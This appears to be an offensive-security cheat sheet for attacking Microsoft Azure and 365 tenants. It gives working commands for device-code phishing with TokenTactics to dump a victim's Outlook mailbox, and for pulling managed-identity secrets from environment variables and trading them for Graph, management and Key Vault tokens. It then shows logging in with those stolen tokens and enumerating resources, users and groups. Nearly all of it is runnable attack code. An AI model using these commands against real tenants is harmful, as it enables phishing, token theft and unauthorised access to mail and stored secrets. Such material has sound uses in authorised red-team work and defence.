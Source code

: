 ## Device Code phising
```powershell
Import-Module .\TokenTactics-main\TokenTactics.psd1   

# Generate the device code and user code
Get-AzureToken -Client MSGraph

# Dump Outlook using the access token
Dump-OWAMailboxViaMSGraphApi -AccessToken $response.access_token -mailFolder
```

## Abusing Managed Identities
```powershell
# Extract the MSI_SECRET and MSI_ENDPOINT values from env. variables
env | grep MSI

# Query the Identitiy endpoint for GraphAPI, AzureVault and Management access tokens
curl "$IDENTITY_ENDPOINT?resource=https://graph.windows.net/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER

$mgmtToken = 'eyJ0eXAiOiJKV1QiLX9rsVtX99Rk...[SNIP]...BQXTOxQ8GYK8QvIV7ZuwGjlyc9iL7Q'

$graph = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJ...[SNIP]...H8PmkZf3tTKd57dg'

$keyVault = 'eyJ0eXAiOiJdiUm9LSTNR...[SNIP]...S-KsIKUadEC784ShMsWcirZCw'

Disconnect-AzAccount

Connect-AzAccount -KeyVaultAccessToken $keyVault -AccessToken $mgmtToken -GraphAccessToken $graph -AccountId e1703509-9d01-4f6d-b883-82783ab59446
```

## Enumerate Resources
## Manual
- Enumerate sharepoint by using the link `https://<tenant>.sharepoint.com/_forms/default.aspx`
- Enumerate OneDrive by using the link: 
`https://<tenant>-my.sharepoint.com`
### Powershell AZ Module
```powershell
$password = ConvertTo-SecureString 'P@ssw0rd' -AsPlainText -Force 
$creds = New-Object System.Management.Automation.PSCredential('storageviewer@example.onmicrosoft.com', $Password) Connect-AzAccount -Credential $creds

Connect-AzAccount -Credential $creds

# Enumerate resources our user has access to
Get-AzResource

# Confirm account is service principal
Get-AzContext

Get-AzADuser
Get-AzADGroup
Get-AzADGroupMember -ObjectId 01086658-6706-44e8-a373-96ab550c72f7

# Enumerate a specific user
```